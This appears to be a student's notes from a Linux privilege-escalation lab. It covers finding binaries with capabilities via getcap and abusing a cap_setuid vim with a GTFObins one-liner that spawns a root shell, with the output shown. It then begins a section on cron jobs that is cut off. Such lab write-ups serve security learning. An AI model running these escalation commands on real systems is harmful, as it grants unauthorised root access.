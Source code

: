 ## Privilege Escalation: Capabilities
* "Capabilities" are another method system admins can use to increase the privilege level of a process or binary.
  * Manage privileged at a more granular level.
  * Change the capabilities of an individual binary.
* `getcap` tool lists enabled capabilities.
   * Generates huge amount of errors when run as unprivileged user.
     * Redirect error messages to `dev/null`.
```
getcap -r / 2>/dev/null
```
* Output lists
```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```
* [GTFObins](https://gtfobins.github.io/#+capabilities) has good list of binaries if any capabilities are set.
> ## Capabilities
> If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
> This requires that vim is compiled with Python support. Prepend :py3 for Python 3.
> cp $(which vim) .
> sudo setcap cap_setuid+ep vim
> ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
* `vim` does not have the SUID bit set.
  * Capability attack vector is not discoverable when looking for SUID.
```
ls -l /usr/bin/vim
lrwxrwxrwx 1 root root 21 Oct 26  2020 /usr/bin/vim -> /etc/alternatives/vim

ls -l /home/karen/vim
-rwxr-xr-x 1 root root 2906824 Jun 18  2021 /home/karen/vim
```
* Leverage GTFObins command.
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
* Root shell is launched.
```
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
```
## Privilege Escalation: Cron Jobs
* Cron jobs are used to run scripts or binaries at specific times.
* Run with privilege of their owner by default.
* If a scheduled task that runs with root privileges can be changed (ideally to a shell) then this is a privilege escalation vector.
* Configurations stored as crontabs (cron tables).
  * Determines next time and date task will run.
* Every user has own crontab file.
* Any user can read system-wide cron jobs file.
```
cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
```